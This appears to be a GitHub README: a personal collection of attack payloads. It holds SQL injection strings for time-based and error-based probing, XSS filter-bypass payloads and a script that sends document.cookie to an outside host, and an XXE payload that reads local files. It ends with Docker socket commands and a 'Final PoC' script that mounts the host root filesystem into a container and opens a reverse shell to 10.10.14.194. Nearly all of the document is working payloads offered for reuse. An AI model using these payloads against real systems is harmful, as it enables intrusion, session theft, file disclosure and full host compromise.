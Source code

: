 ## Just a useless set of payload used by me. Saved here for remembrance.

### SQL Injection
#### Time Based Blind:
 - `(select(if(user()like(user()),sleep(4),sleep(2))))` (Timed Based Blind)
 - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")
 - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd` (Timed Based Blind)
 - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa` (Timed Based Blind)

### Cross Site Scripting
 - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
 - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
 - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
 - `('asd').anchor(prompt());` (just pops a prompt) 
 - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies

### XML External Entity
 - ``` <?xml version="1.0" ?><!DOCTYPE message [<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/opt/hybris/deployments/dist.tar.deploy/hybris/confi">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&x25;eval;
&x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]><data>
 <lastName>asd</lastName>
 <notes>atest</notes>
 <town>Lucca</town>
 <streetNumber>15</streetNumber>
 <postalCode>46794</postalCode>
 <taxCode>XTJBNH44R30D793Y</taxCode>
 <firstName>&error;</firstName>
 <streetName>asd</streetName>
 <countryIso>it</countryIso>
 <phone>3462617384</phone>
 <district>LU</district>
 <shippingAddress>false</shippingAddress>
 <billingAddress>false</billingAddress>
 <vatCode>02313821007</vatCode>
 <defaultAddress>false</defaultAddress>
</data>``` (Used when i had no space left for internal entities into payload/dtd) 
 -  `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
